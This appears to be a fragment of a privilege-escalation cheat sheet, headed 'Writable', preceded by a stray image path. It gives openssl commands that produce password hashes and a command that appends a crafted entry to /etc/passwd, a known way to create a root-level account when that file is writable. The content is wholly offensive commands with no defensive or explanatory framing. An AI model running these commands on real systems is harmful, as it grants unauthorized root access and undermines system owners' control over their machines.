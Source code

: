 # Writable

```bash
openssl passwd -1 -salt qwe qwe
openssl passwd qwe
echo '<passwd>' >> /etc/passwd
```